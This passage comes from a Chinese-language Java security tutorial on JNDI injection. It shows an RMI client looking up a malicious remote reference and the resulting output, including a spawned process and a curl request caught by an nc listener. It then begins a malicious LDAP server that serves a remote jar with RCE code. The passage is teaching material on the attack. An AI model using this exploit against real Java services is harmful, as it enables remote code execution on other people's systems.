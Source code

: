 ```java
//       System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");

         InitialContext context = new InitialContext();

         // 获取RMI绑定的恶意ReferenceWrapper对象
         Object obj = context.lookup(RMI_NAME);

         System.out.println(obj);
      } catch (NamingException e) {
         e.printStackTrace();
      }
   }

}
```

程序运行结果：

```
Process[pid=8634, exitValue="not exited"]
```

客户端执行成功后可以在`nc`中看到来自客户端的`curl`请求：

```
GET / HTTP/1.1
Host: localhost:9000
User-Agent: curl/7.64.1
Accept: */*
```

上面的示例演示了在`JVM`默认允许加载远程`RMI`引用对象所带来的`RCE`攻击，但在真实的环境下由于发起`RMI`请求的客户端的`JDK`版本大于我们的测试要求或者网络限制等可能会导致攻击失败。

### 创建恶意的LDAP服务 

`LDAP`和`RMI`同理，测试方法也同上。启动LDAP服务端程序后我们会在`LDAP`请求中返回一个含有恶意攻击代码的对象工厂的远程`jar`地址，客户端会加载我们构建的恶意对象工厂(`ReferenceObjectFactory`)类然后调用其中的`getObjectInstance`方法从而触发该方法中的恶意`RCE`代码。

**包含恶意攻击的LDAP服务端代码：**

```java
package com.anbai.sec.jndi.injection;

import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;

import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;
import java.net.InetAddress;

public class LDAPReferenceServerTest {

   // 设置LDAP服务端口
   public static final int SERVER_PORT = 3890;

   // 设置LDAP绑定的服务地址，外网测试换成0.0.0.0
   public static final String BIND_HOST = "127.0.0.1";

   // 设置一个实体名称
```